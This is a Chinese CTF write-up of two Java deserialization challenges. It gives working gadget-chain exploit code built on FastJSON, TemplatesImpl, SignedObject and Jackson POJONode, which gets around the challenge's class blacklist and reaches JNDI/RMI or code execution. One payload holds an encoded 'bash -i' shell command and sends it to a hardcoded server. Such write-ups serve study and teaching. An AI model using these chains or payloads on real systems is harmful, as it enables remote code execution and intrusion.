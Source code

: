 

## ezbean

题目有个 read 路由直接反序列化，而且提供了一个 Bean 能够打 rmi，但是反序列化走的是自己的 MyObjectInputStream，其中通过重写 resolveClass 方法 ban 掉了这样一些类：

```java
private static final String[] blacklist = new String[]{
        "java\\.security.*", "java\\.rmi.*",  "com\\.fasterxml.*", "dev\\.silente\\.javashark\\.solution\\.*",
        "org\\.springframework.*", "org\\.yaml.*", "javax\\.management\\.remote.*"
};
```
依赖包有个 fastjson 60，所以有个 toString2Getter，而 BadAttributeValueExpException 可以触发 toString。调试代码发现其实在 JSONArray/JSONObject 后输入流会变成 SecureObjectInputStream，不会走题目中的过滤，所以可以直接接上 MyBean。

```java
// BadAttributeValueExpException.toString -> FastJSON -> MyBean.getConnect -> RMIConnector.connect
// 有一点需要注意的是在 toString2Getter 中的 Mybean 走的是 SecureObjectInputStream，所以可以直接绕过题目中的 MyObjectInputStream
public static void case1(String jndi) throws Exception {
    JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/" + jndi);
    RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

    MyBean myBean = new MyBean(null, null, rmiConnector);

    // 也可以使用 toString2GetterJSONObject
    // Object json = GFastJson.toString2GetterJSONObject(myBean);
    Object json = GFastJson.toString2GetterJSONArray(myBean);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    byte[] code = SerializeUtils.serialize(poc);
    System.out.println(Base64.getEncoder().encodeToString(code));
    deserialize(code);
}
```

第二个 poc 是利用了 y4 师傅的[博客](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)，通过引用类型来达到绕过 SecureObjectInputStream autotype 的目的，这里都不用 MyBean 了，直接可以执行 TemplatesImpl。

```java
// BadAttributeValueExpException.toString -> FastJSON -> TemplatesImpl
public static void case2() throws Exception {
    TemplatesImpl templates = STemplates.getEvilTemplates("calc");

    Object json = GFastJson.toString2GetterJSONArray(templates);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    ArrayList<Object> arrayList = new ArrayList<>();
    arrayList.add(templates);
    arrayList.add(poc);

    byte[] code = SerializeUtils.serialize(arrayList);
    System.out.println(Base64.getEncoder().encodeToString(code));
    deserialize(code);
}
```

第三个 poc 是 SignedObject 二次反序列化 （其实好像并不需要hh）
```java
// 二次反序列化
// BadAttributeValueExpException.toString -> FastJSON -> SignedObject -> MyBean.getConnect -> RMIConnector.connect
public static void case3(String jndi) throws Exception {
    JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/" + jndi);
    RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

    MyBean myBean = new MyBean(null, null, rmiConnector);

    // 也可以使用 toString2GetterJSONObject
    // Object json = GFastJson.toString2GetterJSONObject(myBean);
    Object json = GFastJson.toString2GetterJSONArray(myBean);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    byte[] p = SerializeUtils.serialize(poc);
    Object obj = GSignedObject.getter2Deserialize(p);
    Object json2 = GFastJson.toString2GetterJSONArray(obj);
    Object bd = GBadAttributeValueExpException.deserialize2ToString(json2);

    byte[] code = SerializeUtils.serialize(bd);
    System.out.println(Base64.getEncoder().encodeToString(code));
    deserialize(code);
}
```

参考：

- y4 师傅两篇文章: [1](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96), [2](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)
- 序列化/反序列化流程分析： [1](https://www.cnpanda.net/sec/893.html), [2](https://www.cnpanda.net/sec/928.html)

## bypass

只 ban 了一个 get 方法，Templates 其他方法也能弹，这里学到了一个 toString2Getter 的新类：POJONode，原生存在于 springboot 中。

```java
public static void task1() throws Exception {
    Object templates = STemplates.getEvilTemplates("bash -c {echo,QWQ}|{base64,-d}|{bash,-i}");

    Object json = GPOJONode.toString2Getter(templates);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    byte[] code = SerializeUtils.serialize(poc);

    MiscUtils.sendToServer("http://112.124.14.13:8070/bypassit", code);
}
```

序列化时需要改动一下 POJONode 的 writeReplace 方法，要么直接删掉，要么可以这样改：
```java
@Override
Object writeReplace() {
    return new POJONode(_value);
}
```